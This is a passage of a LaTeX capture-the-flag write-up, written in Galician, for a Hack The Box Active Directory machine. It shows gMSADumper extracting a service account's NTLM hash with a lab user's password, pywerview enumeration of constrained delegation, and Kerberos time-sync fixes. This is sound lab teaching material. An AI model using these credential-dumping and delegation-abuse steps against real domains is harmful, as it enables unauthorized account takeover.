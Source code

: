 \documentclass[a4paper]{article}
\begin{document}
        \begin{lstlisting}[language=Bash, caption=Escalada de privilexios: gMSADumper]
$ python3 gMSADumper.py -u Ted.Graves -p Mr.Teddy -d template.htb
Users or groups who can read password for svc_int$:
 > DC$
 > itsupport
svc_int$:::ee6ba16bad56e4fd9cc2a4156710cd2d\end{lstlisting}

Precisamos un correcto \textbf{spn}, logo empregamos \textbf{pywerview}:
        \begin{lstlisting}[language=Bash, caption=Escalada de privilexios: pywerview]
$ pywerview get-netcomputer -u 'Ted.Graves' -p 'Mr.Teddy' -t 10.10.10.248
dnshostname: svc_int.template.htb
dnshostname: dc.template.htb

$ pywerview get-netcomputer -u 'Ted.Graves' -p 'Mr.Teddy' -t 10.10.10.248 --full-data | grep -i allowedtodelegate
msds-allowedtodelegateto:       WWW/dc.template.htb\end{lstlisting}



\subsubsection{Flag root}
\textbf{\color{red}{PROBLEMA TEMPO KERBEROS - ntpdate}}
        \begin{lstlisting}[language=Bash, caption=ntp - kerberos]
$ sudo timedatectl set-ntp false            
                                                                                  
$ sudo ntpdate 10.10.10.248 
{"time":"2022-06-07T08:46:03.465482+0700","offset":-0.001070,"precision":0.053495,"host":"10.10.10.248",
"ip":"10.10.10.248","stratum":1,"leap":"no-leap","adjusted":false}

$ rm dates.txt;for i in $(timedatectl list-timezones)                                                                                                           
do          
  sudo timedatectl set-timezone $i; echo -n "$i " >> dates.txt
  date >> dates.txt
done  
                                                                                 
$ sudo timedatectl set-timezone Africa/Bissau\end{lstlisting}
                                    
\end{document}

